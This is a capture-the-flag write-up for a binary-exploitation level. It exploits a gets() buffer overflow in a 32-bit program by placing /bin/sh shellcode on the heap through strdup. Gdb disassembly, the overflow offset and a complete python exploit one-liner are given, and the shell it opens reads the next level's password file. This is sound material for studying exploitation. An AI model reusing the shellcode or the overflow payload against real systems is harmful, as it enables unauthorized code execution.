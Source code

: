 # Level 2

## What we have

```bash 
GCC stack protector support:            Enabled
Strict user copy checks:                Disabled
Restrict /dev/mem access:               Enabled
Restrict /dev/kmem access:              Enabled
grsecurity / PaX: No GRKERNSEC
Kernel Heap Hardening: No KERNHEAP
System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

## Testing the program

```bash
$ ./level2
a
a
```

The program displays the input

## Learning more

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave  
   0x0804854b <+12>:	ret    
End of assembler dump.
```

The main calls a function 'p'. 

```bash
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
```

```bash
0x080484ed <+25>:	call   0x80483c0 <gets@plt>
[...]
0x080484fb <+39>:	and    $0xb0000000,%eax
0x08048500 <+44>:	cmp    $0xb0000000,%eax
```

Like in level1, we can see a call to gets() function which is vulnerable to buffer overflow attack.
A check is made to make sure we dont overwrite the return address to an adress on the stack. 
The restriction on our return address appears to be anything that starts with the the bit ‘b’ (indicated by the ‘and’ calculation with the value "0xb0000000").
Due to this check we couldn't point the return address to the stack (0xbf000000 - 0xbfffffff range). This avoids having a shellcode stored on the stack or in environment variable. But if we can't use the stack we can use the heap !

```bash
0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
```

We see in the program that the buffer is later copied inside a strdup. 
This function use malloc which stores the memory on the heap.


```bash
ltrace ./level2 
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                              = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)   = 0xbffff6fc
puts("")                                        = 1
strdup("")                                      = 0x0804a008
+++ exited (status 8) +++
```

We see that the malloc returns the address '0x0804a008'


## Getting access to the shell 

We are going to use the vulnerability of gets() to overwrite the return address (EIP) so it points to our shellcode saved in the heap at the address 0x0804a008. 


First let's find the offset in order to get to EIP. 
We generate a pettern using [this website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?)

```bash
$ gdb level2
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info register eip
eip            0x37634136	0x37634136
```

We found that the offset of eip starts at 80.
Our shellcode will be a classic bin/sh : 
```plaintext
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

which we found [here](https://shell-storm.org/shellcode/files/shellcode-575.html)

So we have : 
• shellcode : 21 bytes --> Executes /bin/sh
• arbitrary data : 59 bytes --> Padding to fill the buffer
• return address : 4 bytes --> Points to our shellcode in the heap thanks to the malloc of strdup

```bash
$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/coucou
cat /tmp/coucou - | ./level2
j
 X?Rh//shh/bin??1?̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?
whoami
level3
cat /home/user/level3/.pass
***************************************
```